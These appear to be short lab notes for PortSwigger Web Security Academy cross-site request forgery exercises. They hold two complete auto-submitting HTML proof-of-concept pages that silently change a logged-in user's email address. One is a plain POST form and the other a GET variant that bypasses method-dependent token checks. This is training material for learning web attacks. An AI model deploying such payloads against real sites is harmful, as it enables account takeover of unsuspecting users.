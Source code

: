 ___

Engagement tools / Generate CSRF PoC

Enable the option to include an auto-submit script and click "Regenerate".
# CSRF vulnerability with no defenses

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a670050040a93f380ec30c9001f00b8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="dani@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token validation depends on request method

With POST --> missing parameter CSRF

GET


```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ab3000303d506d3801d35f700120019.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="dani@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


